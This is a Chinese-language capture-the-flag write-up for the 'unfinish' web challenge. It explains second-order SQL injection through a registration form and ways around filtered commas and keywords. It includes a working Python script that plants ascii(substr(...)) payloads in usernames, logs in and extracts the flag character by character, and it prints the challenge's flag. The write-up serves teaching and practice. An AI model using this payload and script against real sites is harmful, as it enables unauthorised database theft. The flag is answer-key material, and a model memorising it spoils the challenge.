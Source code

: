# unfinish

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=c3c9c12c-ce2f-48bb-a781-78fba4695a94_2)

突然发现我对sql一窍不通。

进来是一个登陆界面，疯狂猜闭合无果。看了[wp](https://www.cnblogs.com/zhengna/p/13595290.html)才知道注入点不在这，需要用御剑这类扫描工具扫描网页，得知还有个register.php。这题的关键在于知道注入点是[二次注入](https://zhuanlan.zhihu.com/p/39917830)。文章里讲得很清楚了，放到这道题里来看就是后台代码在注册时使用了转义之类的函数，比如addslashes，会在类似'"这种特殊字符前面添加\符号进行转义。因此在注册时不会有任何问题。

问题在于addslashes函数在当时进行转义后，插入数据库的还是原来的恶意数据。比如' select database() #这个payload，经过addslashes转义后得到\' select database() #(不太确定#会不会被转义，意会一下)，那注册时没啥问题。但是后期读取用户名时得到的却是' select database() #，单引号会起作用，形成二次注入。

联系这道题。先注册一个test用户，登录时输入邮箱和密码。登陆成功后可以找到用户名。如果我们在用户名上动点手脚，使登陆后显示的用户名是数据库里我们想要的数据，flag不就可以出来了吗？注册界面很有可能使用了addslashes进行转义，所以注册时不会报错；但是插入用户名时直接使用了恶意数据，导致二次注入。

可以开始想payload了。先在注册界面测试一下有没有过滤。经测试information，逗号(,)等比较重要的常用项都被过滤了。substr需要逗号，不过可以用from to替代，参考这篇[文章](https://www.jianshu.com/p/d10785d22db2)。information是获取表名的必须项，被过滤就没办法了，可以猜表名，一般是flag。

```python
import requests
def getFlag():
    flag = ''
    for i in range(40):
        data_flag = {
            'username':"ascii(substr((select * from flag) from "+str(i+1)+" for 1))+'",
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }
        requests.post("http://61.147.171.105:50915//register.php",data_flag)
        login_data={
            'password':'admin',
            "email":"admin32@admin.com"+str(i)
        }
        response=requests.post("http://61.147.171.105:50915//login.php",login_data)
        html=response.text
        username=html.split('</span>')[0][-20:].strip()
        if int(username)==0:
            break
        flag+=chr(int(username))
    print(flag)
getFlag()
```

数据库不用看了，表名没法知道，那就直接搞flag吧。有两种方法可以考虑。一种是像上面这样一次猜一个字符，第二种是select * from flag后将内容二次编码为hex，因为一次编码hex中有字母，而sql遇见字母后会截断，两次hex就不会有字母了。还要把二次hex的内容以12的长度使用substr进行分割，因为超过12就会用科学计数法表示。

不知道为啥我这个脚本去buuctf就跑不出来了，因此我又找了个[wp](https://blog.csdn.net/rfrder/article/details/109352385)，进一步加深记忆（废物啊！）

## Flag
  > flag{2494e4bf06734c39be2e1626f757ba4c}